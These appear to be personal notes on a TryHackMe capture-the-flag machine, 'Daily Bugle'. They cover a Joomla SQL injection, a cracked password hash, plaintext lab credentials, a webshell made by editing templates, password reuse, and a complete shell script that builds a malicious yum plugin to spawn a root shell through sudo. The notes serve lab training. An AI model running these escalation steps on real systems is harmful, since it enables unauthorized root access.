 # THM: Daily Bugle
# OS: Linux (Hard)

----

[NOTES]
- Joomla CMS at http://$ip/ is vulnerable to `CVE-2017-8917`
- Found Joomla password:
  jonah:spiderman123
- MySQL creds: root:nv5uz9r3ZEDzVjNu
- Found password reuse: `MySQL:root|internal:jjameson` - nv5uz9r3ZEDzVjNu


Usernames:
  jonah (Joomla)
  jjameson (Linux Account)
  root

Passwords:
  nv5uz9r3ZEDzVjNu (MySQL) (jjameson)
  spiderman123 (Joomla)

----

## Foothold

[WEB]
**Port -> 80**
- Get version information from `http://$ip/README.txt`
- Found CVE (SQLi):
  CVE-2017-8917
  'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
  Hash cracked: spiderman123

- Get webshell from modifying Joomla templates.

## PrivEsc
**apache -> jjameson**
- Credentials for jjameson was found on `/var/www/html/configuration.php` (Password reuse):
  user `apache` can escalate their privileges to `jjameson` by using `su`
    User: jjameson
    Pass: nv5uz9r3ZEDzVjNu

**jjjameson -> root**
- We can run yum as root with no pass, this is dangerous since we can create malicious plugins/packages. And get root.

```shell
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

